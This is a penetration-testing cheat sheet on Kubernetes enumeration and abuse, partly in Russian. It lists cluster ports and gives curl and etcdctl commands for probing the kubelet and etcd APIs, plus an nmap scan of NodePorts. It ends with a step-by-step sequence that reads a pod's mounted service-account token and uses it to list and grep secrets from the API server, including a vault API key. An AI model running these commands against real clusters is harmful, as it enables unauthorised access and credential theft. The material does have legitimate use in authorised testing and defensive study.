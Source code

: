 ```yaml
---
description: Kubernetes Enum/Abuse
---
```


# Kuber

<figure><img src="../../../.gitbook/assets/kuber.jpg" alt=""><figcaption><p>Kubernetes Privilege Escalation</p></figcaption></figure>



## Ports

| Port            | Process        | Description                                                            |
| --------------- | -------------- | ---------------------------------------------------------------------- |
| 443/TCP         | kube-apiserver | Kubernetes API port                                                    |
| 2379/TCP        | etcd           |                                                                        |
| 6666/TCP        | etcd           | etcd                                                                   |
| 4194/TCP        | cAdvisor       | Container metrics                                                      |
| 6443/TCP        | kube-apiserver | Kubernetes API port                                                    |
| 8443/TCP        | kube-apiserver | Minikube API port                                                      |
| 8080/TCP        | kube-apiserver | Insecure API port                                                      |
| 10250/TCP       | kubelet        | HTTPS API which allows full mode access                                |
| 10255/TCP       | kubelet        | Unauthenticated read-only HTTP port: pods, running pods and node state |
| 10256/TCP       | kube-proxy     | Kube Proxy health check server                                         |
| 9099/TCP        | calico-felix   | Health check server for Calico                                         |
| 6782-4/TCP      | weave          | Metrics and endpoints                                                  |
| 30000-32767/TCP | NodePort       | Proxy to the services                                                  |
| 44134/TCP       | Tiller         | Helm service listening                                                 |



## Kubelet Api

```
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

If the response is `Unauthorized` then it requires authentication.



**kubelet (Read only)**

```
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```



## etcd API <a href="#etcd-api" id="etcd-api"></a>

```
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```



## NodePort <a href="#nodeport" id="nodeport"></a>

When a port is exposed in all the nodes via a **NodePort**, the same port is opened in all the nodes proxifying the traffic into the declared **Service**. By default this port will be in in the **range 30000-32767**. So new unchecked services might be accessible through those ports.

```
sudo nmap -sS -p 30000-32767 <IP>
```



## Dnscan

utility for enum services inside cluster network by PTR record

[https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e)

build:

```bash
go build -ldflags "-linkmode external -extldflags '-static -s -w'" -o myapp main.go
```

## Service Account

Check  SA rights&#x20;

```bash
kubectl auth can-i create --list
```



По умолчанию Kubernetes хранит все токены и информацию об учетных записях служб в месте по умолчанию. Перейдите туда, чтобы найти полезную информацию.

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

* Теперь мы можем использовать эту информацию для запроса и взаимодействия со службой API Kubernetes с доступными разрешениями и привилегиями.
* Чтобы указать имя хоста внутреннего API-сервера, мы можем экспортировать его из переменных среды.

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* Чтобы установить путь к `ServiceAccount`токену

```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* Чтобы установить значение пространства имен

```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* Чтобы прочитать `ServiceAccount`токен на предъявителя

```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

* Чтобы указать `ca.crt`путь, чтобы мы могли использовать его при запросе `curl`запросов

```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Теперь мы можем изучить API Kubernetes с помощью токена и построенных запросов.

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

* Чтобы запросить доступные секреты в `default`пространстве имен, выполните следующую команду

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

* Чтобы запросить секреты, специфичные для пространства имен

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

* Получите `k8svaulapikey`пользу от секретов

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

